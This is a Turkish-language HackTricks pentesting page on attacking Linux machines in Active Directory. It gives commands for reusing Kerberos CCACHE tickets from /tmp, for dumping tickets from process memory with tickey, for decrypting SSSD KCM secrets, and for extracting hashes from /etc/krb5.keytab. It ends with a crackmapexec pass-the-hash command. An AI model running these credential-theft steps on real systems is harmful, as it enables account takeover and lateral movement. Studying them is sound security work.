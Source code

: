 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

Bir linux makinesi, bir Active Directory ortamında da bulunabilir.

Bir AD'deki linux makinesi, **farklı CCACHE biletlerini dosyalar içinde saklıyor olabilir. Bu biletler, diğer kerberos biletleri gibi kullanılabilir ve kötüye kullanılabilir**. Bu biletleri okumak için, biletin kullanıcı sahibi olmanız veya makine içinde **root** olmanız gerekir.

## Enumeration

### Linux'tan AD enumeration

Linux'ta (veya Windows'ta bash'te) bir AD'ye erişiminiz varsa, AD'yi listelemek için [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) deneyebilirsiniz.

Ayrıca, **linux'tan AD'yi listelemenin diğer yollarını öğrenmek için** aşağıdaki sayfayı kontrol edebilirsiniz:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA, esasen **Unix** ortamları için Microsoft Windows **Active Directory**'ye açık kaynaklı bir **alternatif**'tir. Active Directory'ye benzer yönetim için tam bir **LDAP dizini** ile bir MIT **Kerberos** Anahtar Dağıtım Merkezi'ni birleştirir. CA ve RA sertifika yönetimi için Dogtag **Sertifika Sistemi**'ni kullanarak, akıllı kartlar da dahil olmak üzere **çok faktörlü** kimlik doğrulamayı destekler. Unix kimlik doğrulama süreçleri için SSSD entegre edilmiştir. Daha fazla bilgi için:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Biletlerle Oynama

### Pass The Ticket

Bu sayfada, **bir linux ana bilgisayarında kerberos biletlerini nerede bulabileceğinizi** göreceksiniz, bir sonraki sayfada bu CCache bilet formatlarını Kirbi'ye (Windows'ta kullanmanız gereken format) nasıl dönüştüreceğinizi ve ayrıca bir PTT saldırısı nasıl gerçekleştireceğinizi öğrenebilirsiniz:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### /tmp'den CCACHE bilet yeniden kullanımı

CCACHE dosyaları, **Kerberos kimlik bilgilerini** saklamak için kullanılan ikili formatlardır ve genellikle `/tmp` içinde 600 izinleriyle saklanır. Bu dosyalar, kullanıcının UID'sine karşılık gelen **isim formatı, `krb5cc_%{uid}`,** ile tanımlanabilir. Kimlik doğrulama biletinin doğrulanması için, **`KRB5CCNAME`** ortam değişkeni, istenen bilet dosyasının yoluna ayarlanmalıdır, bu da yeniden kullanımını sağlar.

Kimlik doğrulama için kullanılan mevcut bileti `env | grep KRB5CCNAME` ile listeleyin. Format taşınabilir ve bilet, ortam değişkenini `export KRB5CCNAME=/tmp/ticket.ccache` ile ayarlayarak **yeniden kullanılabilir**. Kerberos bilet isim formatı `krb5cc_%{uid}` şeklindedir; burada uid, kullanıcının UID'sidir.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE bilet yeniden kullanımı anahtarlık üzerinden

**Bir işlemin belleğinde depolanan Kerberos biletleri çıkarılabilir**, özellikle makinenin ptrace koruması devre dışı bırakıldığında (`/proc/sys/kernel/yama/ptrace_scope`). Bu amaçla yararlı bir araç [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey) adresinde bulunur; bu araç, oturumlara enjekte ederek biletleri `/tmp` dizinine dökme işlemini kolaylaştırır.

Bu aracı yapılandırmak ve kullanmak için aşağıdaki adımlar izlenir:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Bu prosedür, çeşitli oturumlara enjekte etmeyi deneyecek ve başarıyı `/tmp` dizininde `__krb_UID.ccache` adlandırma kuralıyla çıkarılan biletleri saklayarak gösterecektir.

### SSSD KCM'den CCACHE bilet yeniden kullanımı

SSSD, veritabanının bir kopyasını `/var/lib/sss/secrets/secrets.ldb` yolunda tutar. İlgili anahtar, `/var/lib/sss/secrets/.secrets.mkey` yolunda gizli bir dosya olarak saklanır. Varsayılan olarak, anahtar yalnızca **root** izinleriniz varsa okunabilir.

\*\*`SSSDKCMExtractor` \*\* komutunu --database ve --key parametreleriyle çağırmak, veritabanını ayrıştıracak ve **gizli bilgileri şifre çözecektir**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**Kimlik bilgisi önbellek Kerberos blob'u, Mimikatz/Rubeus'a geçirilebilecek kullanılabilir bir Kerberos CCache** dosyasına dönüştürülebilir.

### Keytab'tan CCACHE bilet yeniden kullanımı
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### /etc/krb5.keytab dosyasından hesapları çıkar

Kök ayrıcalıklarıyla çalışan hizmetler için gerekli olan hizmet hesap anahtarları, **`/etc/krb5.keytab`** dosyalarında güvenli bir şekilde saklanır. Bu anahtarlar, hizmetler için şifreler gibi, sıkı bir gizlilik gerektirir.

Keytab dosyasının içeriğini incelemek için **`klist`** kullanılabilir. Bu araç, anahtar türü 23 olarak belirlendiğinde, kullanıcı kimlik doğrulaması için **NT Hash** dahil olmak üzere anahtar ayrıntılarını görüntülemek üzere tasarlanmıştır.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Linux kullanıcıları için, **`KeyTabExtract`** NTLM hash yeniden kullanımı için kullanılabilecek RC4 HMAC hash'ini çıkarmak için işlevsellik sunar.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
macOS'ta, **`bifrost`** anahtar dosyası analizi için bir araç olarak hizmet eder.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Çıkarılan hesap ve hash bilgilerini kullanarak, **`crackmapexec`** gibi araçlar kullanılarak sunuculara bağlantılar kurulabilir.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Referanslar

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
